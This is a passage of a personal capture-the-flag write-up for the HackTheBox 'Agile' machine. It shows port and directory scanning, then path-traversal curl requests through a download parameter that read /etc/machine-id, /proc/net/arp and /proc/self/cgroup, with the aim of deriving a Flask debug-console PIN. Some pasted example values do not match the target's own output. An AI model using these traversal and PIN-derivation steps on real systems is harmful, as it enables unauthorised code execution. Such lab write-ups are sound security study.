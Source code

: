 ## Table of Contents

  - [Recon - nmap](#Recon\-\nmap)
    - [Directory Enumeration with GoBuster](#Directory\Enumeration\with\GoBuster)
      - [Vulnerabilty found in /download](#Vulnerabilty\found\in\/download)
    - [Flask Debug Execution](#Flask\Debug\Execution)
      - [Background](#Background)
      - [Example](#Example)
      - [Linux Paths For Cheat sheet](#Linux\Paths\For\Cheat\sheet)

#cicdworkflow #agile #HTB #writeups #CVE-2023-22809 #htmx


## Recon - nmap
```bash
>$ nmap -p- --min-rate 10000 --open 10.10.11.203 -oN agile-init.scan
----------------------------------------------------------------------
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-05 03:05 EST
Nmap scan report for 10.10.11.203
Host is up (0.055s latency).
Not shown: 65081 closed tcp ports (conn-refused), 452 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Moving on with port enumeration...
```bash
nmap -p22,80 -sCV 10.10.11.203 -oN agile-scv.scan
----
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4:bc:ee:21:d7:1f:1a:a2:65:72:21:2d:5b:a6:f7:00 (ECDSA)
|_  256 65:c1:48:0d:88:cb:b9:75:a0:2c:a5:e6:37:7e:51:06 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://superpass.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
`superpass.htb` - domain found... Nice lets add this to `/etc/hosts` so out browser can recognize the hostname.
```bash
echo '10.10.11.203 superpass.htb' | sudo tee -a /etc/hosts
```

- Starting burpsuite to log requests in the background for any funky functionality

### Directory Enumeration with GoBuster
```bash
gobuster dir -u http://superpass.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
----------------------------------------------------------------------
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://superpass.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 302) [Size: 249] [--> /account/login?next=%2Fdownload]
/static               (Status: 301) [Size: 178] [--> http://superpass.htb/static/]
/vault                (Status: 302) [Size: 243] [--> /account/login?next=%2Fvault]
```
Directories Found:
- `/download`
- `/static`
- `/vault`
```bash
┌──(kali㉿kali)-[~/Desktop/HTBSTUFF/HTB5/Agile]
└─$ curl -s -v http://superpass.htb/download
*   Trying 10.10.11.203:80...
* Connected to superpass.htb (10.10.11.203) port 80
> GET /download HTTP/1.1
> Host: superpass.htb
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 302 FOUND
< Server: nginx/1.18.0 (Ubuntu)
< Date: Tue, 05 Dec 2023 08:28:49 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 249
< Connection: keep-alive
< Location: /account/login?next=%2Fdownload
< Vary: Cookie
< Set-Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlBsZWFzZSBsb2cgaW4gdG8gYWNjZXNzIHRoaXMgcGFnZS4iXX1dfQ.ZW7fQQ.AwBNBKV4fcQMNXuqexFWk1jm9IU; HttpOnly; Path=/
< 
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/account/login?next=%2Fdownload">/account/login?next=%2Fdownload</a>. If not, click the link.
* Connection #0 to host superpass.htb left intact
```
- `JWT` Session token
- `nginx/1.18.0`
![[Pasted image 20231205033218.png]]
- Pretty quicky gave up on the JWT aspect... Not sure exactly what I was going for here exactly but I'll leave it...

#### Vulnerabilty found in /download
When looking through the `burpsuite` HTTP History while clicking around the site and exporting the file to a `.csv`, I noticed the `fn` query. 

When viewing `/download` you will be met with a `Flask` error page. So this means at least the following:
- Site is built using `flask`
- it is running in `debug` mode. This is good... Very good.
![[Pasted image 20231205034240.png]]

....
![[Pasted image 20231205034312.png]]
Lil bit of LFI Fuzzing and after the 4th try:
![[Pasted image 20231205035729.png]]
Notes:
- `corum`
- `edwards`
- `dev_admin`
Have shells, indicating they can log in.

`runner` has a custom home directory `/app/app-testing`

### Flask Debug Execution

#### Background

The debug page for Flask is made for developers to find a crash and figure out what happened. It gives not only the stack trace, but also the ability to get a Python console and run additional commands at the point of the crash
- It is possible to derive the pin based off of information given from the debug page, but first i want the site's source code for further enumeration
At this point in time here are the different methods of attack:
- Get Source Code of site (Leaked from debug page)

- inspect `__init__.py` file
- `/usr/local/lib/python3.5/dist-packages/flask/app.py`


```python
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]
```
`username` - user who started this Flask app
`modname` - flask.app
`getattr(app, '__name__', getattr(app .__class__, '__name__'))` is flask
`getattr(mod, '__file__', None)` is the **absolute path of** `app.py` in the flask directory (e.g. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` doesn't work, **try** `app.pyc`

use `--path-as-is` so that `curl` doesn’t undo the `../`
- to get the username for deriving PIN, check `/proc/self/environ`
**private_bits**

```bash
uuid.getnode() is the MAC address of the current computer, str(uuid.getnode()) is the decimal expression of the mac address.

To find server MAC address, need to know which network interface is being used to serve the app (e.g. ens3). If unknown, leak /proc/net/arp for device ID and then leak MAC address at /sys/class/net/<device id>/address.
```
#### Example
```bash
┌──(kali㉿kali)-[~/Desktop/HTBSTUFF/HTB5/Agile]
└─$ curl --cookie "session=.eJwljjkOwzAMBP-iOgUl89D6M4Ypk0haO66C_D0CMt3ONvMpW55xPcv6Pu94lO11lLX4PjQWHo05UclF9l4dIzJkYDjVXMCwLj5v6RqEMDokxCbugtbC0xarXdVdAZoaDeyszCpCJgrXRpYNu3OlqqFzpxxlhtxXnP8alO8PgbAtvg.ZW7bMg.5Qr_uTsKl4D6-VFfb6TXvqwObNc" http://superpass.htb/download?fn=../../../../proc/net/arp -o anv     
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   156  100   156    0     0    933      0 --:--:-- --:--:-- --:--:--   939
                                                                                                
┌──(kali㉿kali)-[~/Desktop/HTBSTUFF/HTB5/Agile]
└─$ cat anv                  
IP address       HW type     Flags       HW address            Mask     Device
10.10.10.2       0x1         0x2         00:50:56:b9:f4:52
```
- Convert from hex to decimal

```sh
python -c 'print(0x005056b9f453)'                                   
345052410963
```


```bash
curl --cookie "session=.eJwljjkOwzAMBP-iOgUl89D6M4Ypk0haO66C_D0CMt3ONvMpW55xPcv6Pu94lO11lLX4PjQWHo05UclF9l4dIzJkYDjVXMCwLj5v6RqEMDokxCbugtbC0xarXdVdAZoaDeyszCpCJgrXRpYNu3OlqqFzpxxlhtxXnP8alO8PgbAtvg.ZW7bMg.5Qr_uTsKl4D6-VFfb6TXvqwObNc" http://superpass.htb/download?fn=../../../../etc/machine-id          

OUTPUT:
      
ed5b159560f54721827644bc9b220d00
```

Now we also need the first line of `/proc/self/cgroup` from the last "/" to the end.

```bash
 curl --cookie "session=.eJwljjkOwzAMBP-iOgUl89D6M4Ypk0haO66C_D0CMt3ONvMpW55xPcv6Pu94lO11lLX4PjQWHo05UclF9l4dIzJkYDjVXMCwLj5v6RqEMDokxCbugtbC0xarXdVdAZoaDeyszCpCJgrXRpYNu3OlqqFzpxxlhtxXnP8alO8PgbAtvg.ZW7bMg.5Qr_uTsKl4D6-VFfb6TXvqwObNc" http://superpass.htb/download?fn=../../../../proc/self/cgroup  
 ---------
 OUTPUT
       
0::/system.slice/superpass.service
```
**We only need the `superpass.service` part**










#### Linux Paths For Cheat sheet
`/proc/self/cgroup`
`/proc/sys/kernel/random/boot_id` 


```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:                                                                                                  
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id": 
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

















